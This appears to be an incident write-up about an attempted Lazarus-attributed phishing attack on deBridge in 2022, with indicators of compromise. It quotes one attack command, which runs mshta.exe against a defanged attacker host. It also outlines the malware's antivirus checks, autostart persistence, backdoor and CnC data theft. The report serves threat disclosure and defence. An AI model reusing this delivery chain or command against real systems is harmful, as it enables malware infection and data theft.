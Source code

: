 # deBridge (Attempt)

Date:: August 5, 2022

Tags:: 🔑 - Google Docs Phishing


---


## Details

PSA for all teams in Web3, this campaign is likely widespread.
The attack vector was via email, with several of our team receiving a PDF file named “New Salary Adjustments” from an email address spoofing mine.
We have strict internal security policies and continuously work on improving them as well as educating the team about possible attack vectors.
Most of the team members immediately reported the suspicious email, but one colleague downloaded and opened the file
This made us investigate the attack vector to understand how exactly it was supposed to work and what the consequences would be.
Attack won’t infect macOS users: opening this link on a Mac leads to zip archive with the normal PDF file Adjustments.pdf (md5: 15a4…39c2)
…while opening this link on Windows systems leads to an archive with password-protected pdf with the same name (md5: 0038…8bc4), and an additional file named Password.txt.lnk (md5: 2eaa…6a30)
The attack vector is as follows: user opens link from email -> downloads & opens archive -> tries to open PDF, but PDF asks for a password -> user opens password.txt.lnk and infects the whole system.
We’ve inspected password.txt.lnk and here's a brief description of its contents/actions.
LnkParse shows us that clicking the lnk file will execute a cmd.exe command.
Long story short, this command performs the following actions:
Copy C:\Windows\System32\mshta.exe -> %public%/mshta.exe
mshta.exe “https://www[.]googlesheet[.]info/NZrTnPVmtfjcSMz8n1hZZzvHQvUUEfFnIMAYliQuR+A=”
Opening the link in the browser won’t give any content, so we tried to simulate mshta.exe headers with cUrl and it worked!

### Moving deeper into the rabbit hole reveals what this script does:
    - 1. Show notepad.exe with “pdf password”: Salary2022
    - 2. Check if Antivirus processes are active (ekrn - Eset, qqpcrtp - Tencent, bdagent - BitDefender)
    - 3. If no AV processes are found: save the generated malicious file named Box.lnk into autostart folder
    - 4. Decode Base64-encoded backdoor from var lp, save it into a file with a random name

### Here is how it looks:
    - This simple script sends repetitive requests to the attacker command center (CnC) in order to receive instructions.
    - Replacing eval with logging/echo in the code allowed us to receive malicious instructions from the CnC and analyze them without execution.
    - After a series of empty responses we were finally able to receive the next part.
    - Fast analysis showed that received code collects A LOT of information about the PC and exports it to CnC: username, OS info, CPU info, network adapters, and running processes.
    - System is considered compromised at the moment because any code from CnC can be performed on the infected machine.
    - It’s interesting that only a few anti-virus solutions mark these files as malicious.
    - According to the Twitter thread https://mobile.twitter.com/cyberoverdrive/status/1550175620927299584 files with the same names (but different hashes) were noticed and attributed to Lazarus Group (North-Korean hackers).

### DangerousPassword / CryptoCore / CryptoMimic / APT
    - b52e3aaf1bd6e45d695db573abc886dc
    - Password.txt.lnk
    - www[.]googlesheet[.]info - overlapping infrastructure with @h2jazi's tweet as well as earlier campaigns.
    - d73e832c84c45c3faa9495b39833adb2
    - New Salary Adjustments.pdf 💸💸💸 twitter.com/h2jazi/status/…
    - More related files can be found with #DangerousPassword hashtag, old research is available here: https://threatbook.cn/ppt/The%20Nightmare%20of%20Global%20Cryptocurrency%20Companies%20-%20Demystifying%20the%20%E2%80%9CDangerousPassword%E2%80%9D%20of%20the%20APT%20Organization.pdf
    - Indicators of Compromise: CnC: www[.]googlesheet[.]info
    - New Salary Adjustments.pdf (clean): 15a42f76f41c8f4bab828160e4fd39c2
    - New Salary Adjustments.pdf (with password): 00380fcbb2af75ec177301d44d658bc4
    - password.txt.lnk: 2eaa53ccb43cd38a1f0a28abcd7f6a30

TL;DR: Never open email attachments without verifying the sender’s full email address, and have an internal protocol for how your team shares attachments!


## URLs

- https://twitter.com/AlexSmirnov__/status/1555586334378676225
- https://bleepingcomputer.com/news/security/north-korean-hackers-target-crypto-experts-with-fake-coinbase-job-offers/
- https://bleepingcomputer.com/news/security/debridge-finance-crypto-platform-targeted-by-lazarus-hackers/
